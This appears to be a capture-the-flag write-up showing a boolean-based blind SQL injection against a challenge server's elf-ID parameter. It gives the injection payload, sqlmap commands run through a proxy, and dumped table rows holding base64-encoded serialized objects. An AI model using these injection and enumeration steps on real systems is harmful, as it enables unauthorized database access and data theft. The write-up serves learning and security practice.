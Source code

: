 ## Boolean based SQL-Injection 

>[!bug]
>The elf's id is vulnerable to boolen-based SQL Injections and can be exploited to enumerate the database

Math is evaluated and executed inside the elf's id:

![](../../zzz_res/attachments/ElfResources4.png)

Moreover boolean-based query can be submitted to confirm the SQL Injection:

![](../../zzz_res/attachments/ElfResources5.png)
![](../../zzz_res/attachments/ElfResources6.png)

Verified the SQL Injection also with sqlmap:

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
```

![](../../zzz_res/attachments/ElfResources10.png)

Enumerated the entire db:

>[!warning]
>Sometimes sqlmap is unable to extract serialized data and just return a void column. Use the `--no-cast` o `--hex` flags for those cases.

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
Database: <current>
Table: elves
[3 entries]
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| id | data                                                                                                                                     |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==             |
| 2  | gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=                     |
| 3  | gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4= |
```
